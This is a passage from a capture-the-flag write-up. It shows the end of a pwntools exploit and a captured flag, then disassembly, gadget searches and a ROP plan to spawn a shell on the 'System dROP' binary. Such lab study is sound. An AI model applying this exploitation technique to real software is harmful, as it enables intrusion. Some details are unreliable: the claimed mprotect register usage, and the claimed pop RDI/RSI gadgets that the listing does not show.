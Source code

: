 ```

r.recvuntil(": ")
r.sendline(str(elf.sym._))       # get_flag function 0x40096b
print(r.recvuntil("}"))
```

Running the script returns the flag:

```
► ./sploit.py SILENT=1
b'We need to get out of here as soon as possible. Run!\n\nMission accomplished! \xe2\x9c\x94\nCHTB{d3struct0r5_m1n3f13ld}'
```

System dROP
-----------

This binary challenge is compiled with partial RELRO and NX. The name appears to imply that ROP is required to exploit this.

The binary itself is fairly small. The `main()` function just reads 256 bytes from the user using `read()`:

```
0x00400541      push rbp
0x00400542      mov rbp, rsp
0x00400545      sub rsp, 0x20
0x00400549      mov edi, 0xf       ; 15
0x0040054e      call alarm         ; sym.imp.alarm
0x00400553      lea rax, [buf]
0x00400557      mov edx, 0x100     ; 256 ; size_t nbyte
0x0040055c      mov rsi, rax       ; void *buf
0x0040055f      mov edi, 0         ; int fildes
0x00400564      call read          ; sym.imp.read ; ssize_t read(int fildes, void *buf, size_t nbyte)
0x00400569      mov eax, 1
0x0040056e      leave
0x0040056f      ret
```

A user defined `syscall()` function exists for the sole purpose of providing a `syscall` gadget:

```
0x00400537      push rbp
0x00400538      mov rbp, rsp
0x0040053b      syscall
0x0040053d      ret
```

There are no “win” functions, so that means we need to get a shell by executing `execve("/bin/sh")`. My initial thought was to use a `mprotect` syscall on a writable section to make it executable, `read()` shellcode into that location, and then return to it to get a shell. `mprotect` requires four parameters that need to be set in RDI, RSI, RDX, and RCX. A quick look at what gadgets are available in the binary show that we only have a pop RDI and RSI that are immediately accessible:

```
► ropper --file system_drop --search 'pop r??'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r??

[INFO] File: system_drop
0x00000000004005cc: pop r12; pop r13; pop r14; pop r15; ret;
0x00000000004005ce: pop r13; pop r14; pop r15; ret;
0x00000000004005d0: pop r14; pop r15; ret;
0x00000000004005d2: pop r15; ret;
0x00000000004004ab: pop rbp; mov edi, 0x601038; jmp rax;
0x00000000004005cb: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
```